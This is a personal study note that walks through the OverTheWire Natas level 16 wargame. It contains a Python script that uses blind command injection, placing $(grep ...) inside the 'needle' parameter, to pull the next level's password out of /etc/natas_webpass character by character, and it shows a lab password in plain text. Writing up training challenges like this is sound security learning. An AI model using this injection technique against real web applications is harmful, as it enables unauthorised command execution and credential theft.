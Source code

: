 
2024-07-19 21:01

Source:  #natas #py 

Tags: [[regex]]
## Natas 16

 ```
passthru("grep -i \"$key\" dictionary.txt");  # snippet form website source code
```
- the key argument is passed in double quotes so it is isolated as its own argument we can't get around that
- we can't directly use `$(whoami)` to run commands because the command's output is used as a input for the grep command which is searching in the dictionary 

if we only send in `B` as input because `B` does exist in the password that command in the PHP code is filled in with the actual password an argument and it obviously can't find that in dictionary text so we don't see any output here

```
import requests
import re
import string

characters = string.ascii_letters+"0123456789"

username = 'natas16'
password = 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo'

url = 'http://natas16.natas.labs.overthewire.org/?debug=true'
sessions = requests.Session()
seen = list()

while(len(seen) < 32):
    for ch in characters:
        print("".join(seen)+ch)
        
        response = sessions.post(url,data = {"needle": "anythings$(grep ^" + "".join(seen) + ch + "  /etc/natas_webpass/natas17)"},auth = (username,password))
 
#grep ^ - ret true if the current character is a part of the password string at the cuurent position

        content = response.text
        returned = re.findall('<pre>\n(.*)\n</pre>',content)

        if not returned:
            seen.append(ch)
            break
            
#returned will be empty when we find the character because the server will try to grep the password string from the dictionary, which does not exist that is why we append the character in seen  
```
### References

https://www.youtube.com/watch?v=6XlDsn-R5oQ